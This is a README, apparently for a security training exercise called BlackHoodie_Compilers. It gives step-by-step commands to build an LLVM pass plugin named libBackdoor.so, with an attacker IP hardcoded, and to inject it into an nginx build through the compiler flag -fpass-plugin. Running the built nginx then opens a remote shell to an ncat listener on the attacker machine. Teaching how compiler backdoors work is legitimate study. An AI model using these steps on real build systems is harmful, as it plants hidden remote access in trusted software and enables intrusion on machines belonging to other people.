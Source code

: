 # BlackHoodie_Compilers

Project builds with LLVM v21 and cmake 3.28.3 (minimum)
Building LLVM from scratch: https://llvm.org/docs/GettingStarted.html#getting-the-source-code-and-building-llvm


Exercise Flow:

Attacker machine:
sudo apt update
sudo apt install ncat
ncat -lvp 8080

Target machine:
In examples/inject folder:
Edit IP address in Backdoor.cpp to match attacker IP addres, yes it is hardcoded
mkdir build
cd build 
cmake -S ../ -B .; make
Find libBackdoor.so in lib directory!

sudo cp ../inject/build/lib/libBackdoor.so /usr/local/lib

Change into examples/nginx folder
run:
./auto/configure --with-cc=clang --with-cc-opt=-fpass-plugin=/usr/local/lib/libBackdoor.so --prefix=/home/ubuntu/examples/nginx/build

make
make install 
locate nginx binary 
sudo nginx

Enjoy shell on attacker machine!
